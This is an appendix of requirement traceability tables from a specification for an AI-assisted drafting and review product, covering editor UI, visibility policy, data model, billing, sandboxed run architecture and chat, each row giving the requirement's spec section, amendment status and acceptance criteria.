| REQ-IDE-18 | Running cards expose Pause, Queue guidance, Comment, Edit-plan (via comments), Cancel-keep-partials; cancelled/failed phases refunded | 6.5 | amended (MVP: Pause at phase boundaries, Stop, one note; section-granular steering 1.x) | to write (O6) |
| REQ-IDE-19 | Completed runs expose a ≤200-word walkthrough and a run report; tokens behind Advanced | 5.5 | amended (walkthrough is MVP); **ADR-130 2026-11-08 (213_R7COPY.0): the generated walkthrough is retired — the run card composes deterministically from the delivered record (REQ-COPY-4); the run report stands** | to write (O6) |
| REQ-IDE-20 | Seats appear as badges and profile pages; no role tabs or per-seat chat personas | 6.6 | amended (seat profile pages 1.x) | to write (O6) |
| REQ-IDE-21 | Drafter profile lists inspectable memory read-only; Editor profile shows counts and fetched URLs; both show boundary, config, spend, runs | 6.6 | amended (1.x) | to write (O6) |
| REQ-IDE-22 | The Assistant operates with author-side access and cannot read Editor memory | 6.6, 7.1 | kept | to write (O6) |
| REQ-IDE-23 | Findings render as decorations on the frozen version with severity/kind styling; unanchored listed, never dropped | 5.7 | amended (projections onto human-revised versions) | to write (O6) |
| REQ-IDE-24 | Margin, Desk list, and Approve triage share one `Finding[]` with linked selection and common filters | 5.7 | kept | to write (O6) |
| REQ-IDE-25 | Claim findings show verdict, evidence URLs with dates, and a per-URL "fetched" chip from the fetch log | 5.7 | kept | to write (O6) |
| REQ-IDE-26 | Reconciliation states visible; rejected findings collapsed with reason and promotable | 5.7 | kept | to write (O6) |
| REQ-IDE-27 | Each disposition writes a ledger row (verb, rationale, actor); editable until delivery, then frozen and linked to its move | 5.7 | amended (rationale required for rebut/escalate only; Apply) | to write (O6) |
| REQ-IDE-28 | Pre-triage dispositions pass to Revise as highest-precedence guidance, shown on the sheet | 5.7 | kept | to write (O6) |
| REQ-IDE-29 | Bulk dispositions limited to note/minor classes and always through a per-item diff preview | 5.7 | amended (one consolidated preview, not per-item) | to write (O6) |
| REQ-IDE-30 | Rubric view: per-dimension scores, caps with reasons and linked findings, never an aggregate | 5.7 | kept | to write (O6) |
| REQ-IDE-31 | Editor's letter renders with resolved passage links and a runtime-generated attestation chip | 5.7 | amended (chip derived from hydration manifest + proxy log) | to write (O6) |
| REQ-IDE-32 | Version rail shows origin, immutability, review state; editing a locked version forks without confirm | 5.4 | kept | to write (O6) |
| REQ-IDE-33 | Compare offers side-by-side, inline, and "what changed and why" joined to ledger moves with an Unlinked group; hunk comments become guidance | 5.8 | amended (server-side read-only compare at MVP) | to write (O6) |
| REQ-IDE-34 | Restore points preview, apply as undoable transactions, never alter correspondence or agent memory | 5.8 | kept | to write (O6) |
| REQ-IDE-35 | Browser presents seven typed sections; no filesystem paths; hidden absent, sealed as counts and URLs | 5.13 | kept | to write (O6) |
| REQ-IDE-36 | Every artifact shows a provenance badge linking to its run and phase, a lock-state icon, a freshness note | 5.13 | kept | to write (O6) |
| REQ-IDE-37 | Agent-memory artifacts open read-only; the voice charter offers "Add guidance" | 5.13 | kept | to write (O6) |
| REQ-IDE-38 | Token set with dark default and a complete light theme; paper theme pinnable per project | 5.9 | amended (paper pinned light by default) | to write (O6) |
| REQ-IDE-39 | Paper typography: 17-px Literata/Lora or 16-px Inter, 1.55 leading, 68-ch target, heading ratios, size stepper | 5.9 | kept | to write (O6) |
| REQ-IDE-40 | Motion limited to streaming, progress, pane transitions; none on the paper; reduced-motion honored | 5.9 | kept | to write (O6) |
| REQ-IDE-41 | All catalogued states designed; no blocking modal except Cancel-run confirmation | 5.9 | kept; **ADR-128 2026-11-03 (ratified): kept unchanged — round 7 introduced no new modal (inline title, settings page, non-modal tour)** | to write (O6) |
| REQ-IDE-42 | WCAG 2.2 AA; live regions for findings and approvals; Desk list as the screen-reader surface | 5.9 | kept | to write (O6) |
| REQ-IDE-43 | Sync pill is the only autosave UI; no Save, unsaved dialog, or beforeunload; `⌘S` marks a restore point | 5.10 | kept | to write (O6) |
| REQ-IDE-44 | Launching a review freezes the target with a banner; typing forks a working copy; Revise offers the diff as suggestions | 5.10 | amended (Page read-only during runs at MVP; working copy 1.x) | to write (O6) |
| REQ-IDE-45 | Agent in-place edits arrive as suggestion marks with a count chip, excluded from the human undo stack | 5.4, 5.10 | amended (proposal card at MVP; suggestion marks 1.x) | to write (O6) |
| REQ-IDE-46 | Offline edits to a version frozen meanwhile land in a new working head with a banner; non-prose 409s inline per form | 5.10 | amended (new working head = v(N+1)) | to write (O6) |
| REQ-IDE-47 | Notifications for approvals, spend gates, run finished/failed, auto-continue, voice stale, credit thresholds; deep-linked; collapsed per run; OS-level only when unfocused | 5.11 | kept | to write (O6) |
| REQ-IDE-48 | Inbox lists cross-project approvals and unread deliverables with inline approve/read; returning shows the walkthrough card | 5.11 | kept; **ADR-128 2026-11-06 (236_R7HOME.2b): a project opens to its head draft's Page, the walkthrough-card landing kept — ADR-130 2026-11-08 (213_R7COPY.0): the card is the record-composed run card, not generated prose** | to write (O6) |
| REQ-IDE-49 | Shortcut map with a cheat sheet and palette verbs; no verb launches a run without the sheet | 5.12 | kept | to write (O6) |
| REQ-IDE-50 | The IDE's data contracts are the minimum from the data model; architecture may extend but not rename | 11.3 | amended (renames listed) | to write (O6) |

### A.2 REQ-VIS and REQ-DATA (design/3 — visibility policy and data model)

| ID | One line | Spec § | Status | AC |
|---|---|---|---|---|
| REQ-VIS-1 | Visibility level and reason class per kind in one code-owned policy table; API refuses H reads and `editMode: none` writes; contract test enumerates every kind | 8.1 | kept | to write (O6) |
| REQ-VIS-2 | Visibility never stored per row; may be narrowed per project, never widened | 8.1 | kept | to write (O6) |
| REQ-VIS-3 | Default tree shows exactly SE and SR kinds in typed sections; I via links/"Show working"; H has no route | 8.2 | amended (Research section SR) | §8.2 AC: snapshot of the three real projects contains no I/H row |
| REQ-VIS-4 | `draft` editable only while working; freeze on first run read, dossier reference, promote, or export; one-way | 8.3, 11.6 | kept | to write (O6) |
| REQ-VIS-5 | Every correspondence kind is write-once at delivery; only annotations are mutable, in separate tables | 8.3 | kept | to write (O6) |
| REQ-VIS-6 | The manifest is derived; regenerated into the mirror; never read from a user edit | 8.2, 11.5 | kept | to write (O6) |
| REQ-VIS-7 | Any member reads `agents/author/*` at policy level; no principal reads `agents/editor/*` content; the fetch log is the only Editor projection | 8.3 | kept | to write (O6) |
| REQ-VIS-8 | Derived profile kinds have `editMode: none`; corrections via the seed or `profile_correction` rows | 8.3 | kept | to write (O6) |
| REQ-VIS-9 | Cited ⇒ fetched: a delivered claim ledger with a URL absent from the fetch log fails delivery validation **(amended 2026-09-30 — reconciled with ADR-006 Path B: an unfetched citation is stripped and its claim downgraded rather than failing delivery; a Review with zero verification coverage delivers *Unverified* per REQ-SPEC-31; see the Appendix A.9 note)** | 8.4 | amended (fetch log of record = proxy log; v0.3: every `claim.sources[].url` included — REQ-OBJ-18) | fixture: two-source claim fails delivery when one URL absent from fetch log |
| REQ-VIS-10 | AI-use statement generated from run facts; user may append, not remove | 8.4 | kept; ships MVP (v0.3, row 39; templates over REQ-GENRE-5 — REQ-POS-6) | to write (O6) |
| REQ-VIS-11 | Telemetry never carries prompt or tool content; support transcript access logged and time-limited | 8.4 | kept | to write (O6) |
| REQ-DATA-1 | Every content row references an artifact version in content-addressed S3; Postgres stores no markdown bodies except the CRDT and short fields | 11.1 | kept | to write (O6) |
| REQ-DATA-2 | `immutable` set at delivery or freeze; the trigger is the only enforcement needed (content-addressed) | 11.4 | kept | to write (O6) |
| REQ-DATA-3 | Forward-only SQL migrations via a TS migrator in CI against a real-project seed; policy, agent types, protocols seeded from code | 11.4 | kept | to write (O6) |
| REQ-DATA-4 | Row-level tenancy in the API; RLS on core tables as defence in depth | 11.4 | amended (forced RLS, SET LOCAL, lint, two-tenant test) | §11.4 two-tenant pooled-connection isolation test |
| REQ-DATA-5 | Materialize: pure function → tree with a signed manifest; never re-materialize mid-run | 11.5 | amended (re-materialize at resume with overlays; read-only mounts; hash check) | to write (O6) |
| REQ-DATA-6 | Harvest: walk writable namespaces only; version changed files by path→kind map; identical files not versioned | 11.5 | kept | to write (O6) |
| REQ-DATA-7 | Delivery is one transaction: correspondence item, parsed rows, immutability, freeze, timeline event | 11.5 | amended (sidecar validation; ledger debit separate; v0.3: transaction also spawns/joins/transitions obligations — REQ-OBJ-2) | to write (O6) |
| REQ-DATA-8 | The mirror is a cache deleted with the container; only its run reads it | 11.5 | kept | to write (O6) |
| REQ-DATA-9 | Golden round-trip: materialize + harvest yields zero new versions; drafts round-trip byte-stable | 11.5 | amended (schema-first; idempotence, not arbitrary byte-stability) | to write (O6) |
| REQ-DATA-10 | A run container holds only the seat's mirror, filtered voice view, skill bundle, scratch; frozen drafts and `docs/` read-only | 12.6 | kept | to write (O6) |
| REQ-DATA-11 | `PreToolUse` hook classifies every path, denies out-of-namespace and read-only writes, logs every decision; three denials of one path abort the step | 12.6 | kept | to write (O6) |
| REQ-DATA-12 | Hook injected for every query and inherited by subagents; subagent roster from data, never agent-modifiable files | 12.6 | kept | to write (O6) |
| REQ-DATA-13 | Allowed-path set appended to every subagent prompt from data (belt and braces) | 12.6 | kept | to write (O6) |
| REQ-DATA-14 | At most one working draft per project (unique partial index); no Save verb | 11.4, 11.6 | kept | to write (O6) |
| REQ-DATA-15 | Per-run URL policy (hold-outs, exclusions, calibrator allowlist) applied in the hook and at the proxy; denials logged with reason | 12.6 | amended (builder/calibrator fetch via fetcher; leak audit hard check) | to write (O6) |
| REQ-DATA-16 | The fetch log is the source for source cards and cited ⇒ fetched | 12.6 | kept | to write (O6) |
| REQ-DATA-17 | Input-scoped subagents launched by the orchestrator with exactly the listed files, Read-only tools, output harvested from file | 12.6 | kept | to write (O6) |
| REQ-DATA-18 | Drafting is never fanned out; `Agent` calls rejected during that step | 12.6 | kept | to write (O6) |
| REQ-DATA-19 | Access report built from the audit at delivery; trust chip; denials shown as blocked attempts | 12.6 | amended (attestation from server-side facts) | to write (O6) |
| REQ-DATA-20 | Iteration caps as orchestrator budgets (audit 3, gap 3, re-plan 2); exceeding ends the step partial with the artifact retained | 12.6 | kept | to write (O6) |
| REQ-DATA-21 | Freeze rules: first of run read, dossier delivery, promote, export | 11.6 | kept | to write (O6) |
| REQ-DATA-22 | Delivered artifacts immutable at delivery; dispositions frozen; reversals are new rows | 11.6 | kept | to write (O6) |
| REQ-DATA-23 | Outline edits after v1 create a new outline version and a timeline event; the drafting note records the version used | 7.3, 11.6 | kept | to write (O6) |
| REQ-DATA-24 | Opening a frozen vN for editing creates v(N+1) `human_revision` with a timeline event; the UI shows "v4 · draft" | 11.6 | kept | to write (O6) |
| REQ-DATA-25 | Human-revised versions pass a block diff to Review; claims in changed blocks become `humanAdded` unverifiable placeholders | 11.6 | kept | to write (O6) |
| REQ-DATA-26 | Revise accepts (review of vN, base v(N+1)); findings re-anchored by quote; unanchored ones auto-`mooted` for confirmation | 11.6 | kept | to write (O6) |
| REQ-DATA-27 | Editing a frozen draft during a run creates a working copy; reconciled as suggestions or offered as v(N+1); never a version silently | 5.10, 11.6 | amended (1.x) | to write (O6) |
| REQ-DATA-28 | Agent in-place edits are Yjs transactions with agent origin and suggestion marks; undo tracks the user only | 11.6 | amended (proposal card; marks 1.x) | to write (O6) |
| REQ-DATA-29 | Provenance maps emitted at materialization from marks; marks stripped from the harness's markdown; exportable appendix | 5.4, 11.6 | amended (block-level at MVP) | to write (O6) |
| REQ-DATA-30 | Drift computed on read; one pill, diff-of-inputs, priced refresh; a stale profile is always usable; runs record the snapshot | 9.3, 11.6 | kept | to write (O6) |
| REQ-DATA-31 | Refresh consumes unconsumed corrections; profile snapshots are retained | 11.6 | kept | to write (O6) |
| REQ-DATA-32 | Voice freely changeable while no draft exists; after v1 the API rejects direct change and exposes Fork and Adopt | 9.6 | amended (soft lock) | to write (O6) |
| REQ-DATA-33 | State transitions only by the orchestrator in a transaction that also appends the event | 12.5 | kept | to write (O6) |
| REQ-DATA-34 | Ledger coupling: hold at queue, debits per step, release at terminal, refund before any delivery, partial keeps delivered debits | 12.4 | kept | to write (O6) |
| REQ-DATA-35 | A gate is a durable row; the container is released at gate open; deadline per kind; timeout runs the skill's conservative path | 6.4, 12.4 | amended (per-kind deadlines; some wait; stated in §6.4 item 6) | to write (O6) |
| REQ-DATA-36 | `wait_each` policy opens a gate after every step; `run_to_completion` opens only spend/refusal gates; artifact review policy derived from the policy | 6.4 | amended (policy names; policy-skipped gates write a Decision row) | to write (O6) |
| REQ-DATA-37 | Event payloads never include prompts, skill text, reasoning, tool inputs beyond URLs/paths, or H content; mapper unit-tested against a skill-text corpus | 12.5 | kept | to write (O6) |
| REQ-DATA-38 | Events over SSE keyed (run, seq) with resume; viewers get Summary only | 12.5 | kept | to write (O6) |
| REQ-DATA-39 | Lock-set conflicts keep a run queued with a reason; FIFO per project; concurrency after lock admission | 12.4 | kept | to write (O6) |
| REQ-DATA-40 | Permitted overlaps enumerated (reader ∥ working copy; variants; review ∥ refresh; Assistant ∥ anything; disjoint sections) | 12.4 | kept | to write (O6) |
| REQ-DATA-41 | Mid-run guidance consumed at the next boundary; cancel at the next tool-batch boundary with artifacts retained; comments on findings during a run become next-run guidance | 6.5, 12.4 | kept | to write (O6) |
| REQ-DATA-42 | Runs charged to the project's workspace account; editor starts limited by per-run and monthly caps; consent applies to the invoker | 11.6 | kept | to write (O6) |
| REQ-DATA-43 | Share links expose SR kinds of one dossier or draft; never default-shared | 11.6 | kept | to write (O6) |
| REQ-DATA-44 | Role checks in the API and the Hocuspocus auth hook; mutations via REST with audit rows | 11.6 | kept | to write (O6) |

### A.3 REQ-GROWTH, REQ-BILL, REQ-ACCT (design/4 — growth and billing)

| ID | One line | Spec § | Status | AC |
|---|---|---|---|---|
| REQ-GROWTH-1 | Hero drop-zone accepts documents and paste; held client-side until signup; ingested into a new project within 20 s **(amended 2026-09-30 — the 20 s becomes a §13.5 SLO signal; the held draft persists until consumed; see the Appendix A.9 note)** | 15.1 | kept | to write (O6) |
| REQ-GROWTH-2 | One theme token set for landing and app; system detection + remembered choice; no flash of wrong theme | 15.1 | kept | to write (O6) |
| REQ-GROWTH-3 | Motion policy: recordings and ≤200-ms reveals only; reduced-motion; CLS/LCP budgets | 15.1 | kept | to write (O6) |
| REQ-GROWTH-4 | Pricing table and cost cards render from one versioned `pricing.json`; contract test vs the rate table | 14.2, 15.2 | kept | to write (O6) |
| REQ-GROWTH-5 | Proof section holds only measured claims or attributed testimonials; lint fails on placeholder logos | 15.1 | amended v0.3 (extended by REQ-EVAL-19: superiority claims only from a pre-registered wave meeting criteria; the same review enforces REQ-POS-5/11/13 copy rules) | to write (O6) |
| REQ-GROWTH-6 | Marketing shows cost ranges, never single numbers; the sheet shows point + cap | 15.2 | kept | to write (O6) |
| REQ-GROWTH-7 | Tier table includes Free (trial window and after) with explicit gates; Team shows price and waitlist until roles ship | 14.2 | amended (names) | to write (O6) |
| REQ-GROWTH-8 | Annual toggle re-renders prices and shows the 15% saving in dollars | 14.2 | kept | to write (O6) |
| REQ-GROWTH-9 | The pricing FAQ's cost answer is generated from the estimator's constants | 15.2 | kept | to write (O6) |
| REQ-GROWTH-10 | No separate verification step; trial credit unlock at first spend with fingerprint/ASN/disposable-domain checks; phone only above a risk threshold | 14.3 | kept | to write (O6) |
| REQ-GROWTH-11 | Showcase project seeded in every workspace; read-only, duplicable, archivable, restorable; runs blocked | 15.3 | kept | to write (O6) |
| REQ-GROWTH-12 | First session: every approval on but pre-filled; Ask/Run distinct; no modal tours; ≤4 min to first finding | 15.3 | kept | §15.3 AC: median signup → first finding ≤ 4 min; zero modals |
| REQ-GROWTH-13 | Exactly one paywall mount: the run sheet; never mid-run or on reading/editing/exporting | 14.4 | kept | to write (O6) |
| REQ-GROWTH-14 | End-of-review upgrade card quotes no "third more" number until measured | 14.3 | kept | to write (O6) |
| REQ-GROWTH-15 | Trial abuse controls: identity before spend, fingerprint rule, Base-only, 1 concurrent, ≤6,000 words, kill switch, eligibility stated once | 14.3 | amended (entitlement; global daily trial-spend ceiling) | to write (O6) |
| REQ-GROWTH-16 | `AskButton`/`RunButton` are the only triggers of agent work; `RunButton` requires an estimate (lint) | 5.6 | kept | to write (O6) |
| REQ-GROWTH-17 | Every growth surface has light and dark variants at WCAG AA (axe in CI) | 15.4 | kept | to write (O6) |
| REQ-BILL-1 | Prices, estimates, balances shown as credits with dollars; tokens only behind Advanced | 14.1 | amended (dollars-first at the decision moment) | to write (O6) |
| REQ-BILL-2 | The credit's dollar peg never changes; versioned rate tables with 30 days' notice; every usage event carries its version | 14.1 | kept | to write (O6) |
| REQ-BILL-3 | Cap guarantee: Σ debits ≤ cap as a database constraint | 14.4 | amended (debit computed under lock; trigger is an assertion; cap at proxy) | §14.4 AC: 3× fault injection → debits = cap + adjustment + 402 + delivered dossier |
| REQ-BILL-4 | Consent above 500 credits or 25% of balance; per-user override up to 1,000 | 14.4, 5.6 | amended (200-credit floor on the percentage rule; never on entitlement runs) | to write (O6) |
| REQ-BILL-5 | Every Advanced toggle shows a signed credit delta from the same estimator | 14.4 | kept | §14.4 AC: fact-check off on the 8k/45 golden draft ≈1,240 → ≈330 ± 10% |
| REQ-BILL-6 | The run record freezes estimate, cap, rigor, model tier, phases, rate-table version, counts | 14.4 | kept | to write (O6) |
| REQ-BILL-7 | Estimator re-fits weekly; cap multiplier adapts from 1.5× down to no lower than 1.25× on evidence | 14.4 | kept | to write (O6) |
| REQ-BILL-8 | Four usage levels as separate read models; no tokens outside level 4's disclosure | 14.5 | kept | to write (O6) |
| REQ-BILL-9 | Cost flags computed server-side with templated sentences | 14.5 | kept | to write (O6) |
| REQ-BILL-10 | No usage level exposes prompts, private memory, transcripts, or source-note bodies | 14.5 | kept | to write (O6) |
| REQ-BILL-11 | Levels 1–2 export CSV; Team invoices attach the ledger CSV | 14.5 | kept | to write (O6) |
| REQ-BILL-12 | Levels 0–1 and the run-report header available read-only on mobile; no plan changes on mobile | 14.5 | kept | to write (O6) |
| REQ-BILL-13 | Nightly reconciliation with user-favourable-only adjustments and drift alerting | 12.7, 14.5 | kept | to write (O6) |
| REQ-BILL-14 | After Checkout the user returns to where they started; the sheet re-opens with its configuration | 14.6 | kept | to write (O6) |
| REQ-BILL-15 | FIFO consumption order and the 2× included-balance cap are ledger rules with tests | 14.6 | kept | to write (O6) |
| REQ-BILL-16 | Every billing failure state has an integration test; no run starts without an estimate | 14.6 | kept | to write (O6) |
| REQ-BILL-17 | No charge without an explicit Checkout or opt-in auto-reload with a typed monthly cap | 14.6 | kept | to write (O6) |
| REQ-BILL-18 | Single vocabulary: credits, cap, top-up, plan; banned words lint-enforced | 14.1 | kept | to write (O6) |
| REQ-BILL-19 | `/pricing/rates` publishes current and previous rate tables; run reports link their version | 14.6 | kept | to write (O6) |
| REQ-ACCT-1 | Notification preferences per event type; the two non-configurable rows enforced | 5.11, 14.7 | kept | to write (O6) |
| REQ-ACCT-2 | One integration card component; disconnect removes tokens and keeps samples unless removed | 14.7 | kept | to write (O6) |
| REQ-ACCT-3 | The export zip round-trips into a fresh account (golden test) | 13.4 | kept | to write (O6) |
| REQ-ACCT-4 | Delete follows the 14-day grace and leaves no PII beyond tax-law retention (audited) | 13.3, 14.7 | kept | to write (O6) |

### A.4 REQ-ARCH and REQ-RUN (design/5 — execution and platform architecture)

| ID | One line | Spec § | Status | AC |
|---|---|---|---|---|
| REQ-ARCH-1 | Every service a container from the monorepo on ECS Fargate; only `egress-proxy` holds provider keys | 12.1 | kept | to write (O6) |
| REQ-ARCH-2 | Sandbox subnet egress only to the proxy; no IGW/NAT | 12.1 | kept | to write (O6) |
| REQ-ARCH-3 | `api` is the sole external writer to runs/gates/ledger; sandbox writes via run-scoped token | 12.1 | kept | to write (O6) |
| REQ-ARCH-4 | `fetcher` is the only arbitrary-egress component | 12.1 | amended (fetcher parses nothing; convert has no network) | to write (O6) |
| REQ-ARCH-5 | Ported skills differ from upstream only by `phase`/`scope`/`changed_since`, Q-11 edits, persona resolution; CI diffs | 12.2 | amended (six inputs + phase-result.json + sidecars) | to write (O6) |
| REQ-ARCH-6 | Phase manifests are the only encoding of skill structure | 12.2 | kept | to write (O6) |
| REQ-ARCH-7 | Orchestrator depends only on `Engine`; a second engine is a conformance test away | 12.2 | kept | to write (O6) |
| REQ-ARCH-8 | Q-11 port-time removals in `bootstrap-persona`; Mode metadata only | 12.2 | kept | to write (O6) |
| REQ-ARCH-9 | Model profiles validated against the phase-class capability table | 12.3 | kept | to write (O6) |
| REQ-ARCH-10 | Non-Anthropic providers only via `packages/harness`, only for judge/generate/chat | 12.3 | kept | to write (O6) |
| REQ-ARCH-11 | Run token single-run, 2 h, refreshed on heartbeat, revoked at terminal state | 12.4 | amended (token held by harness uid; carries attempt; rotated per attempt) | to write (O6) |
| REQ-ARCH-12 | SSE streams only `visibility=user`; CI asserts the mapper never leaks internal types | 12.5 | kept | to write (O6) |
| REQ-ARCH-13 | Event delivery p95 ≤ 2 s; no buffering on the route | 12.5 | kept | to write (O6) |
| REQ-ARCH-14 | `agent.note` is template-generated; assistant prose never enters user events | 12.5 | kept | to write (O6) |
| REQ-ARCH-15 | `source.read` URLs come from tool results, not model requests | 12.5 | kept | to write (O6) |
| REQ-ARCH-16 | Hydration manifest from the agent-type policy; S3 session policy is the second check | 12.6 | kept | to write (O6) |
| REQ-ARCH-17 | One hook package for all seats and engines; policy is data | 12.6 | kept | to write (O6) |
| REQ-ARCH-18 | Every path/URL tool call audited, append-only, 90 days | 12.6 | kept | to write (O6) |
| REQ-ARCH-19 | Input-scoped subagents run in per-subagent directories with enumerated files | 12.6 | amended (private mount namespace, distinct uid, no Bash) | to write (O6) |
| REQ-ARCH-20 | `boundary.attested` derived only from audit + write-back diff | 12.6 | amended (derived from hydration manifest + proxy log + launch records; audit secondary) | to write (O6) |
| REQ-ARCH-21 | Prompt-injection controls (a)–(e) | 12.8 | amended (controls (a)–(f) stated accurately) | to write (O6) |
| REQ-ARCH-22 | Fetcher SSRF rules | 13.3 | kept | to write (O6) |
| REQ-ARCH-23 | Conversion never in `api` | 13.3 | amended (conversion only in `convert`) | to write (O6) |
| REQ-ARCH-24 | Presigned uploads to quarantine; separate download origin | 13.3 | amended (separate registrable domain; octet-stream; sniff at conversion) | to write (O6) |
| REQ-ARCH-25 | `tenant_id` + forced RLS as defence in depth | 11.4, 13.3 | amended (RLS rules decided) | to write (O6) |
| REQ-ARCH-26 | Tenant-prefixed S3 with STS session policies | 13.3 | kept | to write (O6) |
| REQ-ARCH-27 | Single region; no residency promise | 13.3 | kept | to write (O6) |
| REQ-ARCH-28 | Backups and the deletion pipeline | 13.3 | kept | to write (O6) |
| REQ-ARCH-29 | Retention schedule | 13.3 | kept | to write (O6) |
| REQ-ARCH-30 | Secrets placement; BYO keys via the proxy | 13.3 | amended (no secret reachable from the model's uid) | to write (O6) |
| REQ-ARCH-31 | Egress proxy behaviour | 13.3, 12.7 | amended (per-run credential and allowlist; meter of record; cap enforcement) | to write (O6) |
| REQ-ARCH-32 | Egress-denied spike pauses the run | 12.8 | kept | to write (O6) |
| REQ-ARCH-33 | Protocol IP isolation and CI grep | 8.4, 13.3 | kept | to write (O6) |
| REQ-ARCH-34 | SLO breach pauses feature work on that surface | 13.5 | kept | to write (O6) |
| REQ-ARCH-35 | Usage capture and nightly reconciliation semantics | 12.7 | amended (proxy is the meter of record; SDK is the cross-check) | to write (O6) |
| REQ-ARCH-36 | Eval gates for protocol/engine/hook/routing changes | 13.2, 13.5 | kept | to write (O6) |
| REQ-ARCH-37 | Protocols and evals outside the public tree from day one | 13.2 | re-amended 2026-11-03 (protocols ship public; evals stays path-resolved private — §13.2 amendment, ADR-002 amendment, ADR-125) | to write (O6) |
| REQ-ARCH-38 | Previews never get production secrets or user-text fixtures | 13.2 | kept | to write (O6) |
| REQ-ARCH-39 | Deploy and run provenance (digests, protocol and rate-table versions) | 13.2 | kept | to write (O6) |
| REQ-ARCH-40 | Licence allowlist enforced in CI | 13.2 | kept | to write (O6) |
| REQ-RUN-1 | Phase completion = declared artifacts exist and parse; one guided retry | 12.2 | amended (completion oracle: SDK result + phase-result.json + predicates) | to write (O6) |
| REQ-RUN-2 | Step commit atomic and idempotent on (run, step, attempt) | 12.2 | kept | to write (O6) |
| REQ-RUN-3 | Half-written drafts commit as `partial-draft.md`, never a version | 12.2 | kept | to write (O6) |
| REQ-RUN-4 | Manifest round log derived, not skill-written | 12.2 | kept | to write (O6) |
| REQ-RUN-5 | Approvals default on; "don't ask" records auto-approval rather than skipping the gate row | 6.4 | kept | to write (O6) |
| REQ-RUN-6 | `on_expiry` runs exactly once via a scheduled job cancelled by user resolution | 6.4 | amended (conditional updates; expiry job re-reads the deadline) | to write (O6) |
| REQ-RUN-7 | Gate decisions are the only inter-phase human text; passed as `guidance` | 6.5 | kept | to write (O6) |
| REQ-RUN-8 | An open gate holds the writer lock; the sandbox has exited | 6.4 | kept | to write (O6) |
| REQ-RUN-9 | Rigor and flags frozen at creation | 6.5 | kept | to write (O6) |
| REQ-RUN-10 | Guarded status transitions | 12.4 | kept | to write (O6) |
| REQ-RUN-11 | Estimate/cap immutable after queue; cap enforced in engine and orchestrator | 12.4 | kept | to write (O6) |
| REQ-RUN-12 | Overrun charged at cap; variance reserve | 12.4 | kept | to write (O6) |
| REQ-RUN-13 | Hold before launch; release within 60 s of terminal | 12.4 | kept | to write (O6) |
| REQ-RUN-14 | Orphan reaper semantics | 12.4 | kept | to write (O6) |
| REQ-RUN-15 | Stale-task fencing by attempt | 12.4 | amended (every internal call carries attempt; StopTask grace) | to write (O6) |
| REQ-RUN-16 | Terminal states leave a consistent layout | 12.4 | kept | to write (O6) |
| REQ-RUN-17 | Concurrency rules enforced in Postgres | 12.4 | kept | to write (O6) |
| REQ-RUN-18 | Queued steering applies at the next boundary; never retroactively | 6.5, 12.4 | kept | to write (O6) |

### A.5 REQ-CHAT, REQ-GATE, REQ-VIZ (design/6 — chat, gates, visualizations)

| ID | One line | Spec § | Status | AC |
|---|---|---|---|---|
| REQ-CHAT-1 | `assistant` agent-type with the stated read/write/deny sets, enforced by mounts and hook; attestation covers chat | 7.1 | kept | to write (O6) |
| REQ-CHAT-2 | Two-conduit rule: chat reaches the pipeline only via the outline artifact or promoted guidance; `agents/assistant` never mounted into runs | 7.1 | kept | to write (O6) |
| REQ-CHAT-3 | The Assistant never writes drafts, correspondence, Drafter memory, or profiles; durable output comes from runs it prepares | 7.1 | kept | to write (O6) |
| REQ-CHAT-4 | Threads: create/rename/archive/delete; default undeletable; deletion keeps source notes | 7.1 | kept | to write (O6) |
| REQ-CHAT-5 | Chat research notes in the convention's format under Research → Chat sources, read-only | 7.1 | kept | to write (O6) |
| REQ-CHAT-6 | `start_workflow`/`propose_outline`/`visualize` are preparatory; runs are created only by the user's confirm | 7.1 | kept | to write (O6) |
| REQ-CHAT-7 | Chat fetches obey the run URL policy; every URL logged | 7.1 | kept | to write (O6) |
| REQ-CHAT-8 | `read_artifact` refs are typed and resolvable from the `@` picker; unresolvable refs error | 7.1 | kept | to write (O6) |
| REQ-CHAT-9 | Every turn shows its credits; the thread shows daily spend; tier picker in the composer | 7.1 | kept | to write (O6) |
| REQ-CHAT-10 | No turn exceeds the per-turn budget without a plan card; accepting creates a run | 7.1 | amended (plan card launches a Research run) | to write (O6) |
| REQ-CHAT-11 | Source cards for every fetched page; no raw page text stored | 7.1 | kept | to write (O6) |
| REQ-CHAT-12 | Compaction produces a user-visible, correctable brief | 7.1 | kept | to write (O6) |
| REQ-CHAT-13 | Pins ≤12 per thread with token footprint; survive compaction | 7.1 | kept | to write (O6) |
| REQ-CHAT-14 | Tier picker per thread (Base / Balanced / Frontier, model in small type); research tools Anthropic-only at MVP | 7.1 | amended (notch only in the composer; model name on hover/Advanced) | to write (O6) |
| REQ-CHAT-15 | Outline promotion is a run with a mandatory, non-expiring approval | 7.3 | kept | to write (O6) |
| REQ-CHAT-16 | Outline artifact carries the provenance header; failed re-fetches marked `[unverified]` | 7.3 | kept | to write (O6) |
| REQ-CHAT-17 | Approval moves the project to Outlined; on projects with drafts, produces outline vN+1 and offers `/draft @section` | 7.3 | kept | to write (O6) |
| REQ-CHAT-18 | Mobile: chat available; promotion and outline editor web-only; approval card approvable on mobile | 7.3 | kept | to write (O6) |
| REQ-CHAT-19 | Assistant suggestions anchored, accept/reject, ≤1 paragraph, span provenance | 7.4 | amended (proposal card) | to write (O6) |
| REQ-CHAT-20 | Side questions during a run read committed artifacts and the feed, never the live session | 7.4 | kept | to write (O6) |
| REQ-CHAT-21 | One parser for composer, palette, popover; discoverable verbs/scopes/levers; unknown verbs corrected, never guessed | 7.2 | kept | to write (O6) |
| REQ-CHAT-22 | Every verb available from four surfaces producing an identical run sheet | 7.2 | kept | to write (O6) |
| REQ-CHAT-23 | `scope` is a first-class run input; scoped dossiers keyed (version, run) and labeled | 7.2 | kept | to write (O6) |
| REQ-CHAT-24 | Scoped estimates shown beside the whole-draft estimate | 7.2 | kept | to write (O6) |
| REQ-CHAT-25 | The run sheet is the only way a run is created; cap passed as `max_usd` | 5.6 | kept | to write (O6) |
| REQ-CHAT-26 | `--variants` accepted/refused per verb; variants share the snapshot and get a compare view | 7.2 | kept | to write (O6) |
| REQ-CHAT-27 | Timeline groups runs by state; variant sets are one expandable row | 7.2 | kept | to write (O6) |
| REQ-CHAT-28 | The palette's first Run item is the state function's next step with its estimate | 5.12 | kept | to write (O6) |
| REQ-CHAT-29 | Scratch entry opens Chat with four chips and an empty Page placeholder; Promote is first in the palette after ≥3 turns | 7.6 | kept | to write (O6) |
| REQ-CHAT-30 | The first-five-minutes path completes on the trial grant with the outline approval as the first gate; instrumented as activation | 7.6 | kept | to write (O6) |
